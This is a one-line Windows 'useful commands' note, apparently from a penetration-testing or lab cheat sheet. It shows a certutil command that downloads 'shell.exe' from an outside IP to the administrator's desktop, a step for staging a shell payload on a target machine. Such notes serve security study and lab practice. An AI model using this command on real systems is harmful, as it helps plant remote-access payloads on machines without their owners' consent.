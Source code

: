 # Windows

## Useful commands

- download a file, like wget in linux
  - `certutil -urlcache -f http://10.10.14.4/shell.exe c:\users\administrator\desktop\sh.exe`
